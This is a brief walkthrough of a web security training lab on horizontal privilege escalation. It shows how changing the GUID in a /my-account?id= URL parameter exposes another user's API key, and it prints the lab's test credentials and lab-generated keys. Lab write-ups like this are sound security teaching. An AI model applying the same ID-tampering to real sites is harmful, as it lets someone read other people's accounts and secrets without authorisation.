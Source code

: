 # User ID controlled by request parameter, with unpredictable user IDs

## This lab has a horizontal privilege escalation vulnerability on the user account page, but identifies users with GUIDs.

## To solve the lab, find the GUID for `carlos`, then submit his API key as the solution.

## You can log in to your own account using the following credentials: `wiener:peter`

### step1

click on login userid and password
find a post from carlos
click on carlos on url you will get id
userId=424c9f8f-b74b-4d26-a7a3-4a67199b7479

### step2

this is wiener id
/my-account?id=63bb4c8c-cf8a-400f-94cf-974210c0c51d
and Your API Key is: R1lJggKCDoE8d0YkisCmlWIOPXMsTBVc
change id of wiener with carlos

/my-account?id=424c9f8f-b74b-4d26-a7a3-4a67199b7479
Your API Key is: 9X8L3hsNtEjaHnvTFnWKtYN0qPFR8shp
this is carlos api key
submit lab solved
